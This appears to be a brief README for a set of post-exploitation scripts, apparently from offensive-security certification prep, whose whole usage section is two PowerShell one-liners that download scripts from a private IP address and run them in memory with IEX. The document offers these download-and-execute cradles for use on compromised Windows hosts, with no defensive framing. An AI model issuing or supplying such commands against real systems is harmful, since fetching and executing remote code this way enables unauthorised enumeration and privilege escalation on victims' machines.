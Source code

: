# Name
Post Exploitation Scripts

## Usage
```
powershell -c "(new-object system.net.webclient).downloadstring('http://192.168.45.203/post_enum.ps1') | IEX"

powershell -c "(new-object system.net.webclient).downloadstring('http://192.168.45.203/post_admin.ps1') | IEX"
```

## Source
https://raw.githubusercontent.com/jayesther/OSEP_OSED_TOOLS/refs/heads/main/OSEP_enum.ps1


